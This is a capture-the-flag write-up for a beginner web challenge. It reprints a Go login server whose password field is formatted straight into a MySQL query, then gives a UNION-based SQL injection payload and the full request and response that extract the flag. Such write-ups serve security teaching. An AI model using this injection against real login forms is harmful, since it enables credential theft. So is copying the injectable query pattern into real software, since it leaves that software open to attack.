

# What's My Password?

[baby] Oh no! Skat forgot their password (again)!

Can you help them find it?



We can see that this web forms smells like an SQL injection. Looking through the source code can give us the query that is being executed.

First we need to some enumeration and static analysis.

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

```go
package main

import (
	"database/sql"
	"encoding/json"
	"fmt"
	"net/http"
	"os"
	"os/signal"
	"regexp"
	"syscall"

	_ "github.com/go-sql-driver/mysql"
)

var DB *sql.DB
var Mux = http.NewServeMux()
var UsernameRegex = `[^a-z0-9]`

type Account struct {
	Username string `json:"username"`
	Password string `json:"password"`
}

func startWeb() {
	fmt.Println("Starting very secure login panel (promise)")

	fs := http.FileServer(http.Dir("/web"))
	Mux.Handle("/", fs)

	Mux.HandleFunc("/api/login", func(w http.ResponseWriter, r *http.Request) {
		if r.Method != http.MethodPost {
			w.WriteHeader(http.StatusMethodNotAllowed)
			return
		}

		var input Account

		decoder := json.NewDecoder(r.Body)
		decoder.Decode(&input)

		if input.Username == "" {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Missing Username"))
			return
		}
		if input.Password == "" {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Missing Password"))
			return
		}

		matched, err := regexp.MatchString(UsernameRegex, input.Username)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			return
		}

		if matched {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Username can only contain lowercase letters and numbers."))
			return
		}

		qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
		fmt.Println(qstring)
		
		query, err := DB.Query(qstring)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}
		defer query.Close()

		if !query.Next() {
			w.WriteHeader(http.StatusUnauthorized)
			w.Write([]byte("Invalid username / password combination!"))
			return
		}

		var result Account
		err = query.Scan(&result.Username, &result.Password)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}
		encoded, err := json.Marshal(result)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}

		w.Write(encoded)
	})

	http.ListenAndServe(":1337", Mux)
}

func main() {
	fmt.Println("Establishing connection to MySql")
	db, err := sql.Open("mysql", "readonly_user:password@tcp(127.0.0.1:3306)/uwu")
	if err != nil {
		fmt.Println(err)
		return
	}
	DB = db

	defer DB.Close()

	startWeb()

	sigChan := make(chan os.Signal, 1)
	signal.Notify(sigChan, syscall.SIGINT, syscall.SIGTERM)
	<-sigChan
}
```

We can see the web is written in go and uses mysql as database. 

```go
var UsernameRegex = `[^a-z0-9]`

...

if input.Username == "" {
    w.WriteHeader(http.StatusBadRequest)
    w.Write([]byte("Missing Username"))
    return
}
if input.Password == "" {
    w.WriteHeader(http.StatusBadRequest)
    w.Write([]byte("Missing Password"))
    return
}

matched, err := regexp.MatchString(UsernameRegex, input.Username)
if err != nil {
    w.WriteHeader(http.StatusInternalServerError)
    return
}

if matched {
    w.WriteHeader(http.StatusBadRequest)
    w.Write([]byte("Username can only contain lowercase letters and numbers."))
    return
}

qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
fmt.Println(qstring)
```
The username is being filtered with regex expression but the password is not. We can use this to our advantage.

To craft the payload we need to know what sql injection we can use. Although in source code above if the query statement is not correct it will return Internal Server Error. So this is error based blind sql injection.

Terminating the query with `"` will give us the error message. So we can build our payload like this `\" UNION SELECT password, username FROM users WHERE username = \"skat"`.

[REQUEST]
```r
POST /api/login HTTP/1.1
Host: 0.0.0.0:10031
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://0.0.0.0:10031/
Content-Type: text/plain;charset=UTF-8
Content-Length: 121
Origin: http://0.0.0.0:10031
DNT: 1
Connection: close
Cookie: PHPSESSID=1fcg181k9k2btq2nr8293rg1fj

{"username":"skat","password":"IamAvEryC0olRootUsr\" UNION SELECT password, username FROM users WHERE username = \"skat"}
```

[RESPONSE]
```json
{username: "irisctf{my_p422W0RD_1S_SQl1}", password: "skat"}
```